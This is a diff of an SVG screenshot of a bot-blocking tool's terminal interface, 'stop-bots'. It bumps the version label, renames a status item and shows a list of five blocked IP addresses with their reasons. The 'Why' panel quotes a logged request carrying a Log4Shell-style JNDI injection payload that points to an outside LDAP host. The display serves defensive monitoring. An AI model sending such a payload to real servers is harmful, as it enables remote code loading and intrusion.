

<svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 931 384" width="931" height="384" font-family="ui-monospace,SFMono-Regular,Menlo,Consolas,'DejaVu Sans Mono',monospace" font-size="14">
  <rect width="100%" height="100%" rx="8" fill="#12161c" />
  <rect x="20.4" y="174.0" width="226.8" height="18.0" fill="#10262a" />
  <rect x="247.2" y="174.0" width="58.8" height="18.0" fill="#10262a" />
  <rect x="306.0" y="174.0" width="184.8" height="18.0" fill="#10262a" />
  <rect x="490.8" y="174.0" width="168.0" height="18.0" fill="#10262a" />
  <rect x="658.8" y="174.0" width="252.0" height="18.0" fill="#10262a" />
  <text x="12.0" y="25.5" fill="#2ee6d6" textLength="75.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">stop-bots</text>
-   <text x="87.6" y="25.5" fill="#6b7c8c" textLength="159.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> 0.2.0-rc.2  web-01</text>
+   <text x="87.6" y="25.5" fill="#6b7c8c" textLength="117.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> 0.2.0  web-01</text>
  <text x="12.0" y="43.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">1</text>
  <text x="28.8" y="43.5" fill="#6b7c8c" textLength="75.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Dashboard</text>
  <text x="129.6" y="43.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">2</text>
  <text x="146.4" y="43.5" fill="#6b7c8c" textLength="100.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Bot settings</text>
  <text x="272.4" y="43.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">3</text>
  <text x="289.2" y="43.5" fill="#6b7c8c" textLength="67.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Firewall</text>
  <text x="381.6" y="43.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">4</text>
  <text x="398.4" y="43.5" fill="#6b7c8c" textLength="42.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">NGINX</text>
  <text x="465.6" y="43.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">5</text>
  <text x="482.4" y="43.5" fill="#2ee6d6" textLength="50.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">Blocks</text>
  <text x="558.0" y="43.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">?</text>
  <text x="574.8" y="43.5" fill="#6b7c8c" textLength="33.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Help</text>
  <text x="12.0" y="61.5" fill="#6b7c8c" textLength="50.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">status</text>
  <text x="79.2" y="61.5" fill="#8cc265" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">●</text>
  <text x="96.0" y="61.5" fill="#6b7c8c" textLength="50.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">kernel</text>
  <text x="163.2" y="61.5" fill="#d18f52" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">▲</text>
  <text x="171.6" y="61.5" fill="#c8d0da" textLength="75.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> reboot  </text>
  <text x="247.2" y="61.5" fill="#d18f52" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">▲</text>
  <text x="255.6" y="61.5" fill="#c8d0da" textLength="75.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> script  </text>
  <text x="331.2" y="61.5" fill="#d18f52" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">▲</text>
  <text x="339.6" y="61.5" fill="#c8d0da" textLength="67.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> nginx  </text>
  <text x="406.8" y="61.5" fill="#8cc265" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">●</text>
  <text x="423.6" y="61.5" fill="#6b7c8c" textLength="42.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">files</text>
  <text x="482.4" y="61.5" fill="#8cc265" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">●</text>
-   <text x="499.2" y="61.5" fill="#6b7c8c" textLength="58.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">console</text>
-   <text x="574.8" y="61.5" fill="#8cc265" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">●</text>
-   <text x="591.6" y="61.5" fill="#6b7c8c" textLength="33.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve">disk</text>
-   <text x="642.0" y="61.5" fill="#8cc265" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">●</text>
-   <text x="658.8" y="61.5" fill="#6b7c8c" textLength="67.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">database</text>
-   <text x="742.8" y="61.5" fill="#8cc265" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">●</text>
-   <text x="759.6" y="61.5" fill="#6b7c8c" textLength="33.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve">logs</text>
-   <text x="810.0" y="61.5" fill="#8cc265" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">●</text>
-   <text x="826.8" y="61.5" fill="#6b7c8c" textLength="84.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">log format</text>
+   <text x="499.2" y="61.5" fill="#6b7c8c" textLength="67.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">schedule</text>
+   <text x="583.2" y="61.5" fill="#8cc265" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">●</text>
+   <text x="600.0" y="61.5" fill="#6b7c8c" textLength="33.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve">disk</text>
+   <text x="650.4" y="61.5" fill="#8cc265" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">●</text>
+   <text x="667.2" y="61.5" fill="#6b7c8c" textLength="67.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">database</text>
+   <text x="751.2" y="61.5" fill="#8cc265" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">●</text>
+   <text x="768.0" y="61.5" fill="#6b7c8c" textLength="33.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve">logs</text>
+   <text x="818.4" y="61.5" fill="#8cc265" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">●</text>
+   <text x="835.2" y="61.5" fill="#6b7c8c" textLength="84.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">log format</text>
  <text x="12.0" y="79.5" fill="#c8d0da" textLength="75.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">5 rule(s)</text>
  <text x="87.6" y="79.5" fill="#c8d0da" textLength="151.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> from every source</text>
  <text x="238.8" y="79.5" fill="#6b7c8c" textLength="184.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">   f cycles the source</text>
  <text x="12.0" y="97.5" fill="#6b7c8c" textLength="487.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">/ searches by address; an address finds the range it is in</text>
  <text x="12.0" y="115.5" fill="#6b7c8c" textLength="907.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Not listed: 0 SSH-login and 0 trusted allow(s), and the downloaded lists (Dashboard). 0 address(es) unblocke</text>
  <text x="12.0" y="151.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">┌</text>
  <text x="20.4" y="151.5" fill="#2ee6d6" textLength="142.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold"> Blocks 1–5 of 5 </text>
  <text x="163.2" y="151.5" fill="#2ee6d6" textLength="756.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">─────────────────────────────────────────────────────────────────────────────────────────┐</text>
  <text x="12.0" y="169.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="20.4" y="169.5" fill="#c8d0da" textLength="226.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> 192.0.2.201               </text>
  <text x="247.2" y="169.5" fill="#e05561" textLength="58.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">block  </text>
  <text x="306.0" y="169.5" fill="#c8d0da" textLength="184.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">by hand (TUI)         </text>
  <text x="490.8" y="169.5" fill="#6b7c8c" textLength="168.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">  1m ago  permanent </text>
  <text x="910.8" y="169.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="12.0" y="187.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="20.4" y="187.5" fill="#c8d0da" textLength="226.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">▎198.51.100.230            </text>
  <text x="247.2" y="187.5" fill="#e05561" textLength="58.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">block  </text>
  <text x="306.0" y="187.5" fill="#c8d0da" textLength="184.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">Injection attempts    </text>
  <text x="490.8" y="187.5" fill="#6b7c8c" textLength="168.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">  1m ago  for 7d    </text>
  <text x="658.8" y="187.5" fill="#c8d0da" textLength="252.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">198.51.100.230 - - [10/Sep/202</text>
  <text x="910.8" y="187.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="12.0" y="205.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="20.4" y="205.5" fill="#c8d0da" textLength="226.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> 203.0.113.9               </text>
  <text x="247.2" y="205.5" fill="#e05561" textLength="58.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">block  </text>
  <text x="306.0" y="205.5" fill="#c8d0da" textLength="184.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Probe paths           </text>
  <text x="490.8" y="205.5" fill="#6b7c8c" textLength="168.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">  1m ago  for 5d    </text>
  <text x="658.8" y="205.5" fill="#c8d0da" textLength="252.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">203.0.113.9 - - [10/Sep/2025:0</text>
  <text x="910.8" y="205.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="12.0" y="223.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="20.4" y="223.5" fill="#c8d0da" textLength="226.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> 198.51.100.17             </text>
  <text x="247.2" y="223.5" fill="#e05561" textLength="58.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">block  </text>
  <text x="306.0" y="223.5" fill="#c8d0da" textLength="184.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">SSH scanners          </text>
  <text x="490.8" y="223.5" fill="#6b7c8c" textLength="168.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">  1m ago  for 5d    </text>
  <text x="658.8" y="223.5" fill="#c8d0da" textLength="252.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Sep 10 04:12:33 host sshd[2211</text>
  <text x="910.8" y="223.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="12.0" y="241.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="20.4" y="241.5" fill="#c8d0da" textLength="226.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> 192.0.2.44                </text>
  <text x="247.2" y="241.5" fill="#e05561" textLength="58.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">block  </text>
  <text x="306.0" y="241.5" fill="#c8d0da" textLength="184.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">SSH scanners          </text>
  <text x="490.8" y="241.5" fill="#6b7c8c" textLength="168.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">  1m ago  for 5d    </text>
  <text x="658.8" y="241.5" fill="#c8d0da" textLength="252.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Sep 10 04:11:07 host sshd[2203</text>
  <text x="910.8" y="241.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="12.0" y="259.5" fill="#2ee6d6" textLength="907.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">└──────────────────────────────────────────────────────────────────────────────────────────────────────────┘</text>
  <text x="12.0" y="277.5" fill="#6b7c8c" textLength="907.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">┌ Why ─────────────────────────────────────────────────────────────────────────────────────────────────────┐</text>
  <text x="12.0" y="295.5" fill="#6b7c8c" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="20.4" y="295.5" fill="#c8d0da" textLength="117.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">198.51.100.230</text>
  <text x="138.0" y="295.5" fill="#c8d0da" textLength="772.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve"> — Injection attempts, added 1m ago                                                         </text>
  <text x="910.8" y="295.5" fill="#6b7c8c" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="12.0" y="313.5" fill="#6b7c8c" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="20.4" y="313.5" fill="#c8d0da" textLength="890.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">198.51.100.230 - - [10/Sep/2025:05:02:14 +0000] "GET /?x=${jndi:ldap://203.0.113.5/a} HTTP/1.1" 400 157   </text>
  <text x="910.8" y="313.5" fill="#6b7c8c" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="12.0" y="331.5" fill="#6b7c8c" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="20.4" y="331.5" fill="#c8d0da" textLength="890.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">"-" "curl/8.5.0"                                                                                          </text>
  <text x="910.8" y="331.5" fill="#6b7c8c" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">│</text>
  <text x="12.0" y="349.5" fill="#6b7c8c" textLength="907.2" lengthAdjust="spacingAndGlyphs" xml:space="preserve">└──────────────────────────────────────────────────────────────────────────────────────────────────────────┘</text>
  <text x="12.0" y="367.5" fill="#2ee6d6" textLength="50.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve" font-weight="bold">Blocks</text>
  <text x="79.2" y="367.5" fill="#2ee6d6" textLength="16.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">↑↓</text>
  <text x="104.4" y="367.5" fill="#6b7c8c" textLength="33.6" lengthAdjust="spacingAndGlyphs" xml:space="preserve">move</text>
  <text x="154.8" y="367.5" fill="#2ee6d6" textLength="42.0" lengthAdjust="spacingAndGlyphs" xml:space="preserve">Enter</text>
  <text x="205.2" y="367.5" fill="#6b7c8c" textLength="58.8" lengthAdjust="spacingAndGlyphs" xml:space="preserve">unblock</text>
  <text x="280.8" y="367.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">f</text>
  <text x="297.6" y="367.5" fill="#6b7c8c" textLength="50.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">source</text>
  <text x="364.8" y="367.5" fill="#2ee6d6" textLength="8.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">/</text>
  <text x="381.6" y="367.5" fill="#6b7c8c" textLength="50.4" lengthAdjust="spacingAndGlyphs" xml:space="preserve">search</text>
